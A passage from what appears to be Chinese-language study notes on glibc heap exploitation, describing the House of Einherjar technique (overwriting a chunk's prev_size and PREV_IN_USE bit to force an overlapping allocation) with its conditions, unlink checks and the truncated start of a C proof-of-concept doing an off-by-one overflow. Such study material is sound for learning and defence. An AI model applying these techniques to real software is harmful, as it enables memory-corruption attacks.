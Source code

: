 
上述代码中，假设想申请的地址在top chunk后面，那么示意图如下

```
|				| 8	| 8	| 8	|			|		|	|
|	last chunk	|  		top chunk		| .....	| P	|
|				|						|		|	|
							|--- requestSize ---|
```

这里主要requestSize中多减了一个8，那是因为chunk大小计算的时候需要加8再向上对齐。

## 7. House of Einherjar / rewrite prev_size and `P` 

这种攻击通过溢出来修改下一个chunk的`P`位，并且修改下一个chunk的prev_size，使得合并的时候能够过多的合并，通过精确计算prev_size，使得下一次malloc的时候申请到假的chunk

* 条件
  * 溢出覆盖`P`
  * 能够伪造虚假chunk
* 安全检查
  * 假的chunk P需要满足`P->fd->bk == P and P->bk->fd == P`
  * 假的chunk P后面的chunk需要满足`chunksize(P) == prev_size (next_chunk(P)), 0)`

```c
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
#include <stdio.h>

struct chunk_structure {
  size_t prev_size;
  size_t size;
  struct chunk_structure *fd;
  struct chunk_structure *bk;
  char buf[0xe0];               // padding
};

int main() {
  struct chunk_structure *chunk1, fake_chunk, fake_chunk2;
  size_t allotedSize;
  unsigned long long *ptr1, *ptr2;
  char *ptr;
  void *victim;

  printf("%p\n", &fake_chunk);
  printf("%p\n", &fake_chunk2);

  // Allocate any chunk
  ptr1 = malloc(40);
  printf("%p\n", ptr1);

  // Allocate another chunk
  ptr2 = malloc(0xf8);
  printf("%p\n", ptr2);

  chunk1 = (struct chunk_structure *)(ptr1 - 2);
  allotedSize = chunk1->size & ~(0x1 | 0x2 | 0x4);
  allotedSize -= sizeof(size_t);      // Heap meta data for 'prev_size' of chunk1

  // Attacker initiates a heap overflow
  // Off by one overflow of ptr1, overflows into ptr2's 'size'
  ptr = (char *)ptr1;
  ptr[allotedSize] = 0;      // Zeroes out the PREV_IN_USE bit

  // Fake chunk
```